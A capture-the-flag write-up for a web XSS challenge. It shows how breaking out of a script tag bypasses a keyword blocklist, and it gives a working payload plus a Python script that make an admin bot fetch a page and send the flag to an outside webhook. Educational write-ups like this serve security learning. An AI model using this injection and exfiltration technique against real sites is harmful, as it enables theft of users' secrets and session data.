

# Shadow Fight

**CTF/platform:** Pragyan CTF 2026

**Category:** Web / XSS

**Difficulty:** Medium (~21 solves)

**Description:** "Do you know XSS?"

**Remote:** `https://shadow-fight.ctf.prgy.in/`

**Flag:** `p_ctf{uRi_iz_js_db76a80a938a9ce3}`

---

## Reconnaissance

When visiting the website we find a **Profile Card Generator** that accepts two GET parameters:

- `name` — profile name
- `avatar` — avatar image URL

When submitting both fields, a visual card is generated with a **"Submit for Review"** button that sends the URL to the admin bot via `POST /review`.

### Relevant headers

```
x-xss-protection: 0          ← XSS protection disabled
x-frame-options: SAMEORIGIN
```

There is no **Content-Security-Policy (CSP)**, which means inline scripts and connections to external domains are allowed.

---

## Source Code Analysis

### 1. Shadow DOM with the flag (closed)

In the HTML there is a script that creates a **closed Shadow DOM** containing the flag:

```javascript
(function() {
    const container = document.createElement('div');
    container.id = 'secret';
    const shadow = container.attachShadow({ mode: 'closed' });
    shadow.innerHTML = '<p style="opacity: 0;">p_ctf{redacted-no-admin}</p>';
    document.querySelector('.card').appendChild(container);
})();
```

The text `p_ctf{redacted-no-admin}` is a placeholder. When the **admin bot** visits the page, the server renders the real flag in its place. Being `mode: 'closed'`, `container.shadowRoot` returns `null` from external JavaScript.

### 2. Injection in the `name` parameter

Further down, the `name` is injected directly into JavaScript and then into the DOM via `innerHTML`:

```javascript
const name = "USER_INPUT_HERE";
const avatar = "AVATAR_URL_HERE";
const nameIsValid = name && validateName(name);
const avatarIsValid = avatar && validateAvatar(avatar);

if (nameIsValid && avatarIsValid) {
    const nameEl = document.createElement('div');
    nameEl.innerHTML = name;          // ← XSS if we pass validation
    c.appendChild(nameEl);
}
```

### 3. Validations in `/public/helpers.js`

```javascript
function isSafe(input) {
    const blockedWords = [
        "\"", '\n', '\r',
        'fetch', 'XMLHttpRequest', 'navigator', 'sendBeacon',
        'postMessage', 'location', 'document', 'window',
        'Function', 'constructor', 'import', '__proto__',
        'prototype', 'escape', 'from', 'char', 'atob', 'btoa'
    ];
    const lowerInput = input.toLowerCase();
    for (const word of blockedWords) {
        if (lowerInput.includes(word.toLowerCase())) return false;
    }
    if (/%0a|%0d/i.test(input)) return false;
    if (/\\x[\da-f]{2}/i.test(input)) return false;
    return true;
}
```

---

## Vulnerability: Server-Side HTML Injection

The server does NOT escape `<` or `>`. We inject `</script>` to break the current script tag:

```javascript
const name = "</script><script>alert(1)</script>";
```

By breaking the original script, **`validateName()` and `isSafe()` never execute**. We have arbitrary JavaScript code execution without restrictions.

---

## Exploitation

### The solution: re-fetch the HTML source

The flag exists in the **HTML source code** of the page. From the admin's browser, `fetch('/')` gets the HTML with the **real flag**.

### Final payload

```javascript
fetch("/").then(r=>r.text()).then(t=>{
    let m = t.match(/p_ctf\{[^}]+\}/);
    new Image().src = "https://webhook.site/UUID?f=" + (m ? m[0] : "noflag");
})
```

### Execution

```python
import requests

BASE = "https://shadow-fight.ctf.prgy.in"
WEBHOOK = "https://webhook.site/YOUR-UUID"

xss = f'fetch("/").then(r=>r.text()).then(t=>{{let m=t.match(/p_ctf{{[^}}]+}}/);new Image().src="{WEBHOOK}?f="+(m?m[0]:"noflag")}})'

params = {
    'name': f'</script><script>{xss}</script>',
    'avatar': 'https://picsum.photos/100',
}

r = requests.post(f"{BASE}/review", params=params, verify=False)
print(r.text)
```

Result in webhook:

```
GET /?f=p_ctf{uRi_iz_js_db76a80a938a9ce3}
```

---

## Flag

```
p_ctf{uRi_iz_js_db76a80a938a9ce3}
```

`uRi_iz_js` → "URI is JS" — reference to the URI containing executable JavaScript.

---

## Lessons

1. **Never trust client-side validation**. If the server doesn't sanitize output, breaking the `<script>` tag bypasses any JavaScript validation.
2. **Closed Shadow DOM doesn't protect server-side secrets**. If the secret is in the HTML source, a `fetch('/')` retrieves it trivially.
3. **Without CSP, any XSS is game over**.

---

## PoC

### Exploit Execution



*Screenshot showing successful execution of the XSS exploit and flag capture for Shadow Fight 1.*
